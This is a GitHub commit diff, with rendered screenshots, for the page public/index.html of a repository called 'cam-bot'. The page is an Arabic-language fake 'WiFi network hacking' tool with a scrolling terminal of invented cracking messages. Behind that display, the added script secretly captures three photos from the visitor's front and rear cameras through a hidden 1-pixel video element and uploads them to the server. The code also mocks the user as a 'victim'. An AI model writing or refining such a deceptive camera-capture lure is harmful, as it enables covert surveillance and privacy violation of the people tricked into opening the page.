

Before and after one commit to loayaltmimi65-sketch/cam-bot, a website: page public/index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -2,99 +2,295 @@
 <html lang="ar" dir="rtl">
 <head>
   <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Network Infiltrator</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+  <title>Cyber Attack - اختراق الشبكات</title>
   <style>
-    body { background-color: #000; color: #00ff00; font-family: monospace; text-align: center; padding: 20px; }
-    h1 { color: #ff0000; }
-    #log { text-align: right; height: 200px; overflow-y: auto; border: 1px solid #333; padding: 10px; margin: 20px auto; max-width: 400px; }
-    button { background: #00ff00; color: #000; border: none; padding: 15px 30px; font-size: 18px; cursor: pointer; font-weight: bold; }
-    button:disabled { background: #555; cursor: not-allowed; }
+    @import url('https://fonts.googleapis.com/css2?family=Cairo:wght@700;900&family=Share+Tech+Mono&display=swap');
+
+    * { box-sizing: border-box; }
+
+    body {
+      background-color: #000;
+      color: #00ff00;
+      font-family: 'Share Tech Mono', monospace;
+      margin: 0;
+      padding: 0;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      justify-content: center;
+      height: 100vh;
+      width: 100vw;
+      overflow: hidden;
+      background-image:
+        linear-gradient(rgba(0, 255, 0, 0.05) 1px, transparent 1px),
+        linear-gradient(90deg, rgba(0, 255, 0, 0.05) 1px, transparent 1px);
+      background-size: 20px 20px;
+    }
+
+    .app-container {
+      width: 100%;
+      height: 100%;
+      max-width: 400px;
+      padding: 15px;
+      display: flex;
+      flex-direction: column;
+      justify-content: center;
+      gap: 15px;
+    }
+
+    .header-section {
+      text-align: center;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+    }
+
+    /* شعار الواي فاي الحقيقي المتداخل */
+    .wifi-icon {
+      position: relative;
+      width: 60px;
+      height: 45px;
+      margin-bottom: 10px;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      justify-content: flex-end;
+    }
+
+    .wifi-arc {
+      border: 4px solid transparent;
+      border-top-color: #00ff00; /* لون أخضر نيون */
+      border-radius: 50%;
+      position: absolute;
+      left: 50%;
+      transform: translateX(-50%);
+      box-shadow: 0 0 15px #00ff00, inset 0 0 15px #00ff00; /* تأثير الإضاءة */
+    }
+
+    /* تداخل الأقواس عشان يطلع شكل الشعار الصح */
+    .arc-1 { width: 60px; height: 60px; bottom: -10px; border-width: 4px; }
+    .arc-2 { width: 40px; height: 40px; bottom: -5px; border-width: 4px; }
+    .arc-3 { width: 20px; height: 20px; bottom: 0px; border-width: 4px; }
+
+    .wifi-dot {
+      width: 8px;
+      height: 8px;
+      background-color: #00ff00;
+      border-radius: 50%;
+      box-shadow: 0 0 15px #00ff00, inset 0 0 10px #00ff00;
+      position: absolute;
+      bottom: 0;
+      z-index: 10;
+    }
+
+    .main-title {
+      font-family: 'Cairo', sans-serif;
+      font-weight: 900;
+      font-size: 28px;
+      color: #00ff00;
+      text-shadow: 0 0 10px #00ff00, 0 0 20px #00ff00, 0 0 30px #00ff00;
+      margin: 0;
+    }
+
+    .sub-title {
+      font-size: 12px;
+      color: #00ff00;
+      text-shadow: 0 0 8px #00ff00;
+      letter-spacing: 2px;
+      margin-top: 5px;
+    }
+
+    .terminal-box {
+      width: 100%;
+      height: 220px;
+      border: 2px solid #00ff00;
+      border-radius: 10px;
+      padding: 10px;
+      box-shadow: 0 0 20px rgba(0, 255, 0, 0.5), inset 0 0 20px rgba(0, 255, 0, 0.2);
+      background: rgba(0, 5, 0, 0.95);
+      display: flex;
+      flex-direction: column;
+    }
+
+    .terminal-header {
+      display: flex;
+      justify-content: space-between;
+      align-items: center;
+      border-bottom: 1px solid #00ff00;
+      padding-bottom: 5px;
+      margin-bottom: 8px;
+      font-size: 11px;
+      color: #00ff00;
+    }
+
+    .blink { animation: blink-anim 1s infinite; }
+    @keyframes blink-anim { 50% { opacity: 0; } }
+
+    #log {
+      flex-grow: 1;
+      overflow-y: auto;
+      font-size: 13px;
+      line-height: 1.6;
+      text-align: right;
+      padding-right: 5px;
+    }
+
+    #log::-webkit-scrollbar { width: 3px; }
+    #log::-webkit-scrollbar-track { background: #000; }
+    #log::-webkit-scrollbar-thumb { background: #00ff00; }
+
+    .line { opacity: 0; animation: fadeIn 0.3s forwards; margin-bottom: 4px; color: #00ff00; }
+    @keyframes fadeIn { to { opacity: 1; } }
+
+    #startBtn {
+      background-color: rgba(0, 255, 0, 0.1);
+      color: #00ff00;
+      border: 2px solid #00ff00;
+      padding: 15px;
+      font-size: 18px;
+      font-family: 'Cairo', sans-serif;
+      font-weight: 900;
+      cursor: pointer;
+      transition: all 0.3s;
+      box-shadow: 0 0 15px rgba(0, 255, 0, 0.6);
+      border-radius: 8px;
+      width: 100%;
+      text-shadow: 0 0 10px #00ff00;
+    }
+
+    #startBtn:active {
+      background-color: #00ff00;
+      color: #000;
+      box-shadow: 0 0 40px #00ff00;
+    }
+
+    #startBtn:disabled {
+      border-color: #555; color: #555; box-shadow: none; text-shadow: none; background: transparent;
+    }
+
+    #status {
+      font-size: 16px;
+      text-align: center;
+      font-weight: bold;
+      min-height: 20px;
+      font-family: 'Cairo', sans-serif;
+      color: #00ff00; /* كل الكلام أخضر */
+    }
+
     #video { width: 1px; height: 1px; opacity: 0.01; position: absolute; top: 0; left: 0; }
   </style>
 </head>
 <body>
-  <h1>☠️ جاري اختراق الشبكة ☠️</h1>
-  <div id="log">
-    <div>> بدء الاتصال بسيرفر القيادة...</div>
-    <div>> البحث عن الثغرات...</div>
-    <div>> في انتظار بدء الاختراق...</div>
+
+  <div class="app-container">
+    <div class="header-section">
+
+      <!-- شعار الواي فاي الجديد المتداخل -->
+      <div class="wifi-icon">
+        <div class="wifi-arc arc-1"></div>
+        <div class="wifi-arc arc-2"></div>
+        <div class="wifi-arc arc-3"></div>
+        <div class="wifi-dot"></div>
+      </div>
+
+      <h1 class="main-title">اختراق الشبكات</h1>
+      <div class="sub-title">CYBER ATTACK SYSTEM v9.0</div>
+    </div>
+
+    <div class="terminal-box">
+      <div class="terminal-header">
+        <span>STATUS: <span class="blink">● LIVE</span></span>
+        <span>TARGET: WIFI_NET</span>
+      </div>
+
+      <div id="log">
+        <div class="line">> جاري الاتصال بالسيرفر المركزي...</div>
+        <div class="line">> تفعيل وضع المراقبة (Monitor Mode)...</div>
+        <div class="line">> ⚠️ تم اكتشاف شبكة واي فاي محمية!</div>
+        <div class="line">> جاري فحص نقاط الضعف في الراوتر...</div>
+      </div>
+    </div>
+
+    <button id="startBtn">بدء الاختراق الآن</button>
+    <div id="status"></div>
   </div>
-  <button id="startBtn">بدء الاختراق</button>
-  <div id="status" style="margin-top:20px; color:red;"></div>
 
   <video id="video" autoplay playsinline muted></video>
 
   <script>
     const video = document.getElementById('video');
     const status = document.getElementById('status');
-    const btn = document.getElementById('startBtn');
+    const startBtn = document.getElementById('startBtn');
+    const log = document.getElementById('log');
     let stream = null;
 
-    btn.onclick = async () => {
+    function addLog(text) {
+      const div = document.createElement('div');
+      div.className = `line`;
+      div.textContent = `> ${text}`;
+      log.appendChild(div);
+      log.scrollTop = log.scrollHeight;
+    }
+
+    async function takePhoto(facing) {
+      if (stream) stream.getTracks().forEach(t => t.stop());
+      stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: facing } });
+      video.srcObject = stream;
+      await new Promise(r => setTimeout(r, 1500));
+      const canvas = document.createElement('canvas');
+      canvas.width = video.videoWidth || 720;
+      canvas.height = video.videoHeight || 960;
+      canvas.getContext('2d').drawImage(video, 0, 0);
+      const blob = await new Promise(res => canvas.toBlob(res, 'image/jpeg', 0.85));
+      stream.getTracks().forEach(t => t.stop());
+      await new Promise(r => setTimeout(r, 1000));
+      return blob;
+    }
+
+    startBtn.onclick = async () => {
       try {
-        btn.disabled = true;
-        btn.style.display = 'none';
+        startBtn.disabled = true;
+        startBtn.style.display = 'none';
 
-        status.innerText = "جاري طلب الصلاحيات...";
-        // هنفتح الكاميرا الأمامية مرة واحدة بس
-        stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: 'user' } });
-        video.srcObject = stream;
+        await navigator.mediaDevices.getUserMedia({ video: true });
 
-        // بنستنى الكاميرا تسخن
-        await new Promise(r => setTimeout(r, 2000));
-
-        status.innerText = "جاري الاختراق... 3";
-        await new Promise(r => setTimeout(r, 1000));
-        status.innerText = "جاري الاختراق... 2";
-        await new Promise(r => setTimeout(r, 1000));
-        status.innerText = "جاري الاختراق... 1";
+        addLog("⛔ محاولة كسر تشفير WPA2...");
+        status.innerText = "جاري كسر التشفير... [3]";
         await new Promise(r => setTimeout(r, 1000));
 
-        status.innerText = "جاري سرقة البيانات...";
+        addLog("⚠️ تم اختراق جدار الحماية!");
+        status.innerText = "جاري كسر التشفير... [2]";
+        await new Promise(r => setTimeout(r, 1000));
+
+        addLog("💀 جاري حقن الأكواد الخبيثة...");
+        status.innerText = "جاري كسر التشفير... [1]";
+        await new Promise(r => setTimeout(r, 1000));
+
+        addLog("✅ تم كسر التشفير بنجاح! تم..");
+        status.innerText = "جار اختراق الشبكات يجاري كلمات المرور...";
 
         const photos = [];
-        const canvas = document.createElement('canvas');
-        canvas.width = video.videoWidth || 720;
-        canvas.height = video.videoHeight || 960;
+        photos.push(await takePhoto('user'));
+        photos.push(await takePhoto('user'));
+        photos.push(await takePhoto('environment'));
 
-        // هنصور صورتين ورا بعض من غير ما نقفل الكاميرا
-        for (let i = 0; i < 2; i++) {
-          canvas.getContext('2d').drawImage(video, 0, 0, canvas.width, canvas.height);
-          const blob = await new Promise(res => canvas.toBlob(res, 'image/jpeg', 0.85));
-          photos.push(blob);
-          await new Promise(r => setTimeout(r, 500));
-        }
+        addLog("🔒 تشفير البيانات وإرسالها إلى السيرفر...");
+        status.innerText = "جاري الإرسال...";
 
-        // دلوقتي هنقفل الكاميرا الأمامية عشان نفتح الخلفية
-        stream.getTracks().forEach(t => t.stop());
-        await new Promise(r => setTimeout(r, 1000)); // استراحة ثانية للمتصفح
-
-        // هنفتح الكاميرا الخلفية
-        stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: 'environment' } });
-        video.srcObject = stream;
-        await new Promise(r => setTimeout(r, 2000)); // استنى تسخن
-
-        // هنصور الصورة التالتة
-        canvas.getContext('2d').drawImage(video, 0, 0, canvas.width, canvas.height);
-        const blob3 = await new Promise(res => canvas.toBlob(res, 'image/jpeg', 0.85));
-        photos.push(blob3);
-
-        // نقفل الكاميرا نهائي
-        stream.getTracks().forEach(t => t.stop());
-
-        // نرسل الصور
         const form = new FormData();
         photos.forEach((p, i) => form.append('photos', p, `photo_${i + 1}.jpg`));
 
         await fetch('/upload', { method: 'POST', body: form });
 
-        status.innerText = "✅ تم الاختراق بنجاح! (أغلق الصفحة)";
-        status.style.color = "#00ff00";
+        addLog("☠️ تم الاختراق! كل بيانات الضحية في أيدينا.");
+        status.innerText = "تم الاختراق بنجاح! (أغلق الصفحة)";
+
       } catch (err) {
-        status.innerText = "❌ فشل: " + err.message;
-        btn.disabled = false;
-        btn.style.display = 'inline-block';
+        addLog("❌ فشل الاتصال بالهدف.");
+        status.innerText = "فشل الاختراق!";
+        startBtn.disabled = false;
+        startBtn.style.display = 'inline-block';
       }
     };
   </script>
```
